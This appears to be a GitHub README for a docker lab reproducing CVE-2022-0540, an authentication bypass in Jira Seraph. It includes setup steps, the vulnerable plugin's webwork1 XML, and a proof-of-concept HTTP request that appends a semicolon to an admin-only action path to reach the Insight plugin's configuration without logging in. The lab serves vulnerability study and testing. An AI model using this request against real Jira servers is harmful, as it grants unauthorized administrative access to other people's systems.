

# Authentication Bypass in Jira Seraph Vulnerability (CVE-2022-0540)

## Introduction

Jira Server and Data Center vulnerable to an authentication bypass in its web authentication framework, Jira Seraph.

Although the vulnerability is in the core of Jira, it affects first and third party apps that specify roles-required at the webwork1 action namespace level and do not specify it at an action level. For a specific action to be affected, the action will also need to not perform any other authentication or authorization checks.

## Setup

Run

```bash
docker-compose up
```

and access to `http://localhost:8080`, setup jira using free trial key.

install[insight-asset-management 8.9.4](https://marketplace.atlassian.com/apps/1212137/insight-asset-management/version-history) in `http://localhost:8080/plugins/servlet/upm/marketplace?source=side_nav_find_new_addons`

## Poc

In this case, I have use a trial key for Jira Software. Send request below to get the configuration of insight plugin.

```http
GET /InsightPluginShowGeneralConfiguration.jspa; HTTP/1.1
Host: 10.128.154.152:8080
Connection: keep-alive
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36 Edg/101.0.1210.39
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
```



As said by **khoadha**, the affect version of this plugin has below `webwork1 tag`

```xml
<webwork1 key="rlabs_pluginconfig_insight_webactions_config_init" name="Insight Plugin Config Show" class="java.lang.Object" roles-required="admin">
    <actions>
        <action name="com.riadalabs.jira.plugins.insight.channel.web.action.InsightPluginGeneralConfigAction" alias="InsightPluginShowGeneralConfiguration">
            <view name="error">/templates/common/error.vm</view>
            <view name="success">/templates/pluginadmin/general_configure_show.vm</view>
        </action>
    </actions>
</webwork1>
```

but the `roles-required` has been bypass.

## Reference

1. https://jira.atlassian.com/browse/JRASERVER-73650
2. https://blog.viettelcybersecurity.com/cve-2022-0540-authentication-bypass-in-seraph/